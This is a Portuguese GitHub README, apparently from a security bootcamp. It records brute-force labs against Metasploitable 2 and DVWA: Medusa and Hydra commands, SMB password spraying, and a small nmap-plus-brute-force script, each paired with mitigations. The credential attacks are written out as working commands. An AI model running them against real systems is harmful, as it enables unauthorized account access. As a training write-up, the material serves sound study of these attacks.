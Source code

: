 Desafio DIO — Minha jornada com Kali, brute force e muita curva de aprendizado

Olá!
Abaixo está o registro do meu projeto de segurança ofensiva do bootcamp da DIO. Realizei experimentos com ataques de força bruta utilizando Kali Linux e Medusa, tudo em ambientes controlados (Metasploitable 2 e DVWA).


Como configurei o ambiente

Duas VMs operando em QEMU/KVM no Debian (não no VirtualBox).

Rede isolada — utilizei a rede do libvirt (virbr0) para garantir a separação e segurança de tudo.

Ferramentas principais: Medusa (brute force), Nmap (scans) e Enum4linux (enumeração SMB/usuários).

O que testei e os resultados
1) Ataque de força bruta no FTP

Comecei pelo básico: FTP na porta 21. O alvo (Metasploitable) vem com credenciais fracas, então foi um teste rápido para observar o fluxo do ataque e como o Medusa atua.

Wordlists usadas

wordlists/usuarios.txt — ex.: holand, msfadmin, root

wordlists/senhas.txt — ex.: mudar@123, senha, 123456

Comando executado

medusa -h 192.168.56.20 -u usuarios.txt -P senhas.txt -M ftp -T 10 -t 4 -f -v 4


Resultado: localizei a credencial holand/mudar@123 (exemplo) e consegui listar arquivos no FTP.

Mitigações recomendadas: usar SFTP/SSH, configurar Fail2Ban para bloquear tentativas recorrentes e exigir senhas robustas.

2) Ataque de força bruta no login web (DVWA)

Passei para o front-end: DVWA em modo low. Formulários vulneráveis são ideais para testes automatizados com ferramentas como o Hydra.

URL local: http://192.168.56.20/DVWA

Comando (Hydra)

hydra -l holand -P senhas.txt 192.168.56.20 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V


Resultado: holand/mudar@123 funcionou no teste (exemplo) e permitiu acesso ao painel.

Mitigações recomendadas: CAPTCHA, hashing forte (bcrypt/argon2) e WAF (ex.: ModSecurity).

3) Password spraying no SMB

Em vez de testar várias senhas em um mesmo usuário, testei uma senha comum em vários usuários (password spraying). Isso evita bloquear contas e costuma ser eficaz contra senhas fracas.

Enumeração de usuários

enum4linux -U 192.168.56.20 > usuarios_smb.txt


Spray com Medusa

medusa -h 192.168.56.20 -U usuarios_smb.txt -p mudar@123 -M smbnt -t 4 -f -v 4


Resultado: acesso ao compartilhamento do usuário holand (exemplo).

Mitigações recomendadas: políticas de bloqueio por tentativas, desativar SMBv1, migrar para SMBv3 com criptografia e adicionar MFA.

O que aprendi

Brute force é conceitualmente simples, mas a complexidade aumenta com o tamanho das wordlists (por exemplo, RockYou).

O ponto fraco costuma ser humano: senhas previsíveis ou reutilizadas.

Defesas que realmente funcionam: MFA, rate limiting / lockouts, hashing forte e monitoramento/alerting (IDS/WAF).

Também aprendi bastante configurando KVM (rede, permissões, snapshots). Os perrengues foram tão didáticos quanto os próprios ataques.

Próximos passos

Rodar o RockYou na íntegra e medir tempo/recursos.

Integrar testes com Metasploit e explorar módulos mais avançados.

Automatizar relatórios e melhorar as wordlists.

Arquivos no repositório

/wordlists — minhas listas básicas (sinta-se à vontade para aprimorar).

/scripts/scan.sh — script simples para iniciar:

#!/bin/bash
# Script rápido
if [ -z "$1" ]; then
  echo "Uso: ./scan.sh <IP>"
  exit 1
fi

echo "Escaneando $1 com Nmap..."
nmap -sV $1

echo "Brute force no FTP..."
medusa -h $1 -u usuarios.txt -P senhas.txt -M ftp -T 10 -t 4 -f -v 4


Feito por: Gabriela Holanda Simões | Bootcamp DIO 2025
Licença: MIT — use com ética.
